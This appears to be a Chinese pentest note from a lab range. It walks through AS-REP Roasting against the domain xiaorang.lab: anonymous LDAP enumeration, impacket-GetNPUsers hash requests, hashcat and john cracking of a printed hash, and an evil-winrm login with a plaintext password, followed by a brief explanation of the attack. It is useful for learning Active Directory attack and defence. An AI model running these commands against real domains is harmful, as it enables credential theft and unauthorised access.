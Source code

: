 M1. 能不能匿名访问
```sh
proxychains ldapsearch -H ldap://172.22.61.17 -b "DC=xiaorang,DC=lab" -x|grep ',CN=Users,DC=xiaorang,DC=lab'
```
<!-- https://blog.csdn.net/longlangci/article/details/131686439 -->

M2. 想办法获取域内用户名, 比如oa上收集同事信息
```bash
# username.txt
lixiuying@xiaorang.lab
...
lixiaoliang@xiaorang.lab
```

```bash
# 获取TGT票据, 看看这些域用户是否开启了“不要求Kerberos预身份验证”选项
proxychains impacket-GetNPUsers -dc-ip 172.22.15.13 -usersfile username.txt xiaorang.lab/ 

# 破解
hashcat -m 18200 --force -a 0 '$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:e5b9df0a854b830ce5f6e5ffe2499d71$d9d9dc060842070cd86a8ecae9e214d3a0ca14b815dc3c39e39c02a33d8e905757ff35a61a31e6dae59482b894e391be7ac67d4f7f484c37cc1dd80c93be6c30ac3a3e8217380170959db080a27cf29adff473385a7c554fe06c8512039f90255f853ce5be6e456377d5aec2530e674ac79c79bae51343f0150105c46703f0a7f1ba694e72c5b4d24aea907e04c33579b7601bda211fa28e0704115de88b9c073ab8863108a2013e8ec447163ec837615ca4dce0798bfdc3424400bdb37a5f0c0497ba4d7b4da0b56c726aca69ef6234ce75776b5bed88c814ec1d0b75b64cb38e94ff66ef5ef3b0a4b4ac8b' ./rockyou.txt 
john --wordlist=/usr/share/wordlists/rockyou.txt username.txt

# pth或winrm 连接
proxychains evil-winrm -i 172.22.61.34 -u yangdming -p kier@n10
```

# 介绍
* Kerberos 身份认证的第一个过程又被称为预身份验证，主要是为了防止域用户密码脱机爆破。
* 如果域用户关闭了预身份验证（"Do not require Kerberos preauthentication"）的话，攻击者可以使用指定的用户向域控制器发送 AS_REQ 请求。然后域控制器会返回 TGT 票据和加密的 Session-key 等信息。
因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。这种攻击方式被称作 AS_REP Roasting 攻击。
